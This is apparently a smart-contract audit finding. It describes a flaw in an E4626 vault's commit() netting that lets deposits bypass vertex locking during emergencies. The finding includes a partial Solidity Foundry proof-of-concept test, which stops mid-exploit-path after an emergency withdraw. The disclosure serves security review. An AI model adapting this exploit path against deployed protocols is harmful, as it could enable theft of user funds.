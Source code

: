 ### Impact

The netting mechanism in the `commit()` function of the E4626 vault implementation allows attackers to bypass vertex locking functionality, which is a critical security control during emergency situations. This vulnerability enables deposits into locked vertices, potentially leading to:

- Theft of user funds during emergency scenarios
- Undermining of the protocol's crisis management controls
- Ability to manipulate token balances inside locked vertices
- Increased risk during emergency migrations or remediations

A successful exploitation of this vulnerability would render the vertex locking security control ineffective, exposing users to risks precisely when the protocol is most vulnerable.

### PoC

Add to Vertex.t.sol

```solidity

    function testRemoveValueSingleBypassesLock() public {
        // Setup vertex with token and vault
        VertexId vid = VertexLib.newId(0);
        Vertex storage v = Store.load().vertices[vid];
        ClosureId honestUserCid = ClosureId.wrap(0x2);
        ClosureId attackerCid = ClosureId.wrap(0x1);
        
        // Initialize vertex with our token and vault
        v.init(vid, address(token), address(vault), VaultType.E4626);
        
        // Setup initial positions for honest user and attacker
        token.approve(address(vault), 20e18);
        v.deposit(honestUserCid, 5e18);
        v.deposit(attackerCid, 1e18);
        
        // Set up a Closure to represent these positions
        Closure storage c = Store.load().closures[honestUserCid];
        c.init(honestUserCid, 5e18, 0, 0);
        c.setBalance(0, 5e18);
        
        Closure storage attackerC = Store.load().closures[attackerCid];
        attackerC.init(attackerCid, 5e18, 0, 0);
        attackerC.setBalance(0, 1e18);
        
        // Lock vertex to prevent normal deposits
        v.lock();
        assertTrue(v.isLocked(), "Vertex should be locked");
        
        // Verify direct deposit is blocked
        vm.expectRevert(abi.encodeWithSelector(VertexImpl.VertexLocked.selector, vid));
        v.deposit(attackerCid, 1e18);
        
        console2.log("Initial balances:");
        console2.log("Honest user balance:", v.balance(honestUserCid, false));
        console2.log("Attacker balance:", v.balance(attackerCid, false));
        
        // EXPLOIT PATH:
        // 1. First use the emergency withdraw feature (checkLock=false) to withdraw from attacker's position
        v.withdraw(attackerCid, 1e18, false);
        
        // 2. Now exploit the fact that c.trimBalance() and v.trimBalance() both call vProxy.withdraw() and vProxy.commit()
        //    but neither of them check for the vertex lock state
        
```